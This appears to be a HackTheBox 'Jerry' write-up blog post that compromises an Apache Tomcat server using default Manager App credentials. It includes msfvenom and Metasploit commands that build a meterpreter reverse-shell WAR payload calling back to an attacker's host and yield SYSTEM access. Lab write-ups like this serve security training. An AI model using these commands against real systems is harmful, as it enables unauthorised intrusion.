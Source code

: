 ```yaml
---
layout: post
title: HackTheBox - Jerry
categories: htb
permalink: /htb-jerry
---
```


![BoxInfo]({{ site.baseurl }}/assets/htb-images/jerry/infocard.png)

Starting off with nmap to determine what ports are open, what services are running on the ports and what are their versions, thus determining the target !

![nmap]({{ site.baseurl }}/assets/htb-images/jerry/nmap.jpg)

So there is only 1 port open, which is: 

+ *8080 http Apache Tomcat*

Let's look at the web page and do some enumeration to find any vulnerabilities.

![index.html]({{ site.baseurl }}/assets/htb-images/jerry/index.html.jpg)

It looks like you this is the default apache tomcat page running version 7.0.88. There are also 3 other web pages; Server Status, Manager App, Host Manager. From experience I know that Host Manager will redirect me to Manager App once I log in successfully, so I will skip it. Let's see what we can find in Server Status page.

As I tried to access the page a login prompt popped up, as usual, but I was able to guess the default credentials **(admin:admin)**. Once I accessed the page I was able to see what is the Hostname of the machine, OS name and version and system architecture.

![serverstatus]({{ site.baseurl }}/assets/htb-images/jerry/serverstatus.jpg)

I now know with which OS I have to deal. Now, went back to index.html, and tried to login to Manager App. And here I found something interesting. The developer left the default credentials, and tomcat was nice enough to show the default error screen, when I tried to login with wrong username and password.

![defaultcreds]({{ site.baseurl }}/assets/htb-images/jerry/defaultcreds.jpg)

I grabbed the credentials from the error page and tried to login to the Manager App, and... Success !

![managerapp]({{ site.baseurl }}/assets/htb-images/jerry/managerapp.jpg)

As I'm now logged in as admin, Tomcat has a feature to upload .war files, which I am able to exploit by using msfvenom to generate a reverse shell with .war extension. War files are also like zip files, they store other files inside it, and by this it means that once I upload a war file to tomcat and try to access it, instead of getting the reverse shell immediately, I will have to specify the actual .jsp file inside the war file. And I can do this by simply unzipping the war file to see the actual payload file.

![revshellwar]({{ site.baseurl }}/assets/htb-images/jerry/revshellwar.jpg)

```
#MSFVenom command to generate .war malicious file.
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f war -o ev1l.war
```
 
I opened Metasploit and set the handler I need to use, after that i set the payload and the options to be able to get a connection back.

```
#In Metasploit
$ use multi/handler
$ set payload windows/x64/meterpreter/reverse_tcp
$ set LHOST <LocalIP>
$ set LPORT 4444
$ exploit
```

Once I uploaded the file I unzipped it on my box, checked the jsp file name and accessed it in the web browser to trigger the payload and get reverse shell.

![fileinweb]({{ site.baseurl }}/assets/htb-images/jerry/fileinweb.jpg)

![revshellopen]({{ site.baseurl }}/assets/htb-images/jerry/revshellopen.jpg)

As I now have a meterpreter reverse shell in metasploit I can check now what user I have access to. And it turns out that I was logged in as NT AUTHORITY\SYSTEM. Game Over !

![root&user]({{ site.baseurl }}/assets/htb-images/jerry/root-user.jpg)

That's how you do Jerry from HackTheBox !
